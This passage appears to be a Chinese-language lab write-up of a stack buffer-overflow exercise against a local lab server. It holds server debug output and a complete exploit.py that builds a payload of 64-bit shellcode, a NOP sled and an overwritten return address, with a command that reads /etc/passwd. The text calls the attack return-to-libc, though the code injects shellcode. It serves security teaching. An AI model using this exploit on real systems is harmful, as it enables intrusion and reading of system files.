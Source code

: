 本 task 重点在于执行 return-to-libc 攻击。

同样的，我们先 `echo hello`

```shell
$ echo hello | nc 10.9.0.7 9090
^C
```

```plaintext
server-4-10.9.0.8 | Got a connection from 10.9.0.1
server-4-10.9.0.8 | Starting stack
server-4-10.9.0.8 | Input size: 6
server-4-10.9.0.8 | Frame Pointer (rbp) inside bof(): 0x00007fffffffe700
server-4-10.9.0.8 | Buffer's address inside bof ():   0x00007fffffffe6a0
server-4-10.9.0.8 | ==== Returned Properly ====
```

修改 `exploit.py`

```python
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
    "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
    "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
    "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
    "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
    "/bin/bash*"
    "_C*"
    # You can modify the following command string to run any command.
    # You can even run multiple commands. When you change the string,
    # make sure that the position of the * at the end doesn't change.
    # The code above will change the byte at this position to zero,
    # so the command string ends here.
    # You can delete/add spaces, if needed, to keep the position the same.
    # The * in this line serves as the position marker         *
    "/bin/ls -l; echo Hello 64; /bin/tail -n 4 /etc/passwd     *"
    "AAAAAAAA"   # Placeholder for argv[0] -- > "/bin/bash"
    "BBBBBBBB"   # Placeholder for argv[1] -- > "-c"
    "CCCCCCCC"   # Placeholder for argv[2] -- > the command string
    "DDDDDDDD"   # Placeholder for argv[3] -- > NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 0               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x00007fffffffe700 + 1200 # Change this number
offset = 104                       # Change this number

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```